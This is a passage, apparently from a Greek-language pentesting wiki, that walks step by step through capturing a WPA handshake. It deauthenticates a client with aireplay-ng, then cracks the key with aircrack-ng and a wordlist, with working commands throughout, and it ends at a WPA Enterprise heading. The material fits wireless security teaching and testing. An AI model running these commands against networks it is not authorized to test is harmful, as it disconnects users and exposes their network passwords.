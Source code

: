 1. Εντοπίστε το **BSSID**, το **κανάλι** και έναν **συνδεδεμένο πελάτη** του στοχευόμενου δικτύου.
2. Χρησιμοποιήστε το `airodump-ng` για να παρακολουθήσετε την κυκλοφορία του δικτύου στο καθορισμένο κανάλι και BSSID, ελπίζοντας να καταγράψετε ένα handshake. Η εντολή θα έχει ως εξής:
```bash
airodump-ng wlan0 -c 6 --bssid 64:20:9F:15:4F:D7 -w /tmp/psk --output-format pcap
```
3. Για να αυξήσετε την πιθανότητα σύλληψης ενός handshake, αποσυνδέστε προσωρινά τον πελάτη από το δίκτυο για να αναγκάσετε μια επανα-authentication. Αυτό μπορεί να γίνει χρησιμοποιώντας την εντολή `aireplay-ng`, η οποία στέλνει πακέτα αποσύνδεσης στον πελάτη:
```bash
aireplay-ng -0 0 -a 64:20:9F:15:4F:D7 wlan0 #Send generic deauth packets, may not work in all scenarios
```
_Σημειώστε ότι καθώς ο πελάτης αποεξουσιοδοτήθηκε, θα μπορούσε να προσπαθήσει να συνδεθεί σε διαφορετικό AP ή, σε άλλες περιπτώσεις, σε διαφορετικό δίκτυο._

Μόλις στο `airodump-ng` εμφανιστούν κάποιες πληροφορίες χειραψίας, αυτό σημαίνει ότι η χειραψία καταγράφηκε και μπορείτε να σταματήσετε να ακούτε:

![](<../../.gitbook/assets/image (172) (1).png>)

Μόλις η χειραψία καταγραφεί, μπορείτε να **σπάσετε** αυτήν με το `aircrack-ng`:
```
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 64:20:9F:15:4F:D7 /tmp/psk*.cap
```
### Έλεγχος αν υπάρχει handshake στο αρχείο

**aircrack**
```bash
aircrack-ng psk-01.cap #Search your bssid/essid and check if any handshake was capture
```
**tshark**
```bash
tshark -r psk-01.cap -n -Y eapol #Filter handshake messages #You should have the 4 messages.
```
[**cowpatty**](https://github.com/roobixx/cowpatty)
```
cowpatty -r psk-01.cap -s "ESSID" -f -
```
_Εάν αυτό το εργαλείο βρει μια ατελή χειραψία ενός ESSID πριν από την ολοκληρωμένη, δεν θα ανιχνεύσει την έγκυρη._ 

**pyrit**
```bash
apt-get install pyrit #Not working for newer versions of kali
pyrit -r psk-01.cap analyze
```
## **WPA Enterprise (MGT)**
